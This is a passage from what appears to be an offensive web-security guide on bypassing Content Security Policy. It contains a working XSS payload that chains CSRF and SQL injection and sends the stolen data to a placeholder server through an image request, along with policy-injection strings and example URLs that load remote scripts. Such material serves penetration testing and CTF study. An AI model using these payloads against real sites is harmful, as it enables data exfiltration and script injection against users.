 You can bypass this CSP by exfiltrating the data via images (in this occasion the XSS abuses a CSRF where a page accessible by the bot contains an SQLi, and extract the flag via an image):

```javascript
<script>fetch('http://x-oracle-v0.nn9ed.ka0labs.org/admin/search/x%27%20union%20select%20flag%20from%20challenge%23').then(_=>_.text()).then(_=>new Image().src='http://PLAYER_SERVER/?'+_)</script>
```

From: [https://github.com/ka0labs/ctf-writeups/tree/master/2019/nn9ed/x-oracle](https://github.com/ka0labs/ctf-writeups/tree/master/2019/nn9ed/x-oracle)

You could also abuse this configuration to **load javascript code inserted inside an image**. If for example, the page allows loading images from Twitter. You could **craft** an **special image**, **upload** it to Twitter and abuse the "**unsafe-inline**" to **execute** a JS code (as a regular XSS) that will **load** the **image**, **extract** the **JS** from it and **execute** **it**: [https://www.secjuice.com/hiding-javascript-in-png-csp-bypass/](https://www.secjuice.com/hiding-javascript-in-png-csp-bypass/)

### With Service Workers

Service workers **`importScripts`** function isn't limited by CSP:

{% content-ref url="../xss-cross-site-scripting/abusing-service-workers.md" %}
[abusing-service-workers.md](../xss-cross-site-scripting/abusing-service-workers.md)
{% endcontent-ref %}

### Policy Injection

**Research:** [**https://portswigger.net/research/bypassing-csp-with-policy-injection**](https://portswigger.net/research/bypassing-csp-with-policy-injection)

#### Chrome

If a **parameter** sent by you is being **pasted inside** the **declaration** of the **policy,** then you could **alter** the **policy** in some way that makes **it useless**. You could **allow script 'unsafe-inline'** with any of these bypasses:

```bash
script-src-elem *; script-src-attr *
script-src-elem 'unsafe-inline'; script-src-attr 'unsafe-inline'
```

Because this directive will **overwrite existing script-src directives**.\
You can find an example here: [http://portswigger-labs.net/edge\_csp\_injection\_xndhfye721/?x=%3Bscript-src-elem+\*\&y=%3Cscript+src=%22http://subdomain1.portswigger-labs.net/xss/xss.js%22%3E%3C/script%3E](http://portswigger-labs.net/edge\_csp\_injection\_xndhfye721/?x=%3Bscript-src-elem+\*\&y=%3Cscript+src=%22http://subdomain1.portswigger-labs.net/xss/xss.js%22%3E%3C/script%3E)

#### Edge

In Edge is much simpler. If you can add in the CSP just this: **`;_`** **Edge** would **drop** the entire **policy**.\
Example: [http://portswigger-labs.net/edge\_csp\_injection\_xndhfye721/?x=;\_\&y=%3Cscript%3Ealert(1)%3C/script%3E](http://portswigger-labs.net/edge\_csp\_injection\_xndhfye721/?x=;\_\&y=%3Cscript%3Ealert\(1\)%3C/script%3E)
